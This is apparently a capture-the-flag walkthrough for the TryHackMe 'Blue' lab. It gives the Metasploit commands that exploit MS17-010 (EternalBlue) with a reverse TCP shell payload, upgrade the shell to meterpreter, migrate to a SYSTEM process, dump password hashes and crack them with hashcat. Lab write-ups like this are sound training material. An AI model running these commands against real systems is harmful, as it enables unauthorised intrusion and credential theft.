 # [Blue](https://tryhackme.com/r/room/blue)

```shell
export MACHINE_IP=x.x.x.x
```

## Task 1 Recon

**How many ports are open with a port number under 1000?**

```shell
nmap -p 1-999 $MACHINE_IP --open
```

**What is this machine vulnerable to? (Hint: exploits an issue within SMBv1)**

```shell
nmap --script smb-vuln* $MACHINE_IP
```

## Task 2 Gain Access

**Find the exploitation code we will run against the machine. What is the full path of the code?**

```shell
msfconsole
search ms17-010
```

**Show options and set the one required value. What is the name of this value?**

```shell
use exploit/windows/smb/ms17_010_eternalblue
show options
```

**With that done, run the exploit!**

```shell
set RHOSTS MACHINE_IP
set payload windows/x64/shell/reverse_tcp
exploit
```

## Task 3 Escalate

**Research online how to convert a shell to meterpreter shell in metasploit**
**What is the name of the post module we will use?**

[Upgrading shells to Meterpreter](https://docs.metasploit.com/docs/pentesting/metasploit-guide-upgrading-shells-to-meterpreter.html)

```shell
search shell_to_meterpreter
```

**Show options, what option are we required to change?**

```shell
use post/multi/manage/shell_to_meterpreter
show options
```

**Set the required option, you may need to list all of the sessions to find your target here**

```shell
sessions
set SESSION 1 
```

**Run!**

```shell
run
```

**Once the meterpreter shell conversion completes, select that session for use**

```shell
sessions
sessions 2
```

**Verify that we have escalated to NT AUTHORITY\SYSTEM**

```shell
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

**Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id**

```shell
ps
```

**Migrate to this process**

Migrate `taskhost.exe`:  amazon-ssm-agent.exe

```shell
meterpreter > migrate 2960 
[*] Migrating from 2088 to 2960...
[*] Migration completed successfully.
```

## Task 4 Cracking

**Within our elevated meterpreter shell, run the command 'hashdump'**

```shell
meterpreter > hashdump

Administrator:500:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:hhhhhhhhaaaaaaaasssssssshhhhhhhh:::
Guest:501:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:hhhhhhhhaaaaaaaasssssssshhhhhhhh:::
Jon:1000:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:hhhhhhhhaaaaaaaasssssssshhhhhhhh:::
```

**Copy this password hash to a file and research how to crack it. What is the cracked password?**

* Alternative 1: use https://crackstation.net/ and submit the hash 
* Alternative 2: use [hashcat](https://www.kali.org/tools/hashcat/):
  ```shell
  echo "hhhhhhhhaaaaaaaasssssssshhhhhhhh" > hash.txt
  hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
  ```

## Task 5 Find flags!

**Flag1? Flag2? Flag3?**

```shell
meterpreter > search -f flag*

meterpreter > cat /flag1.txt
meterpreter > cat /Windows/System32/config/flag2.txt
meterpreter > cat /Users/Jon/Documents/flag3.txt
```
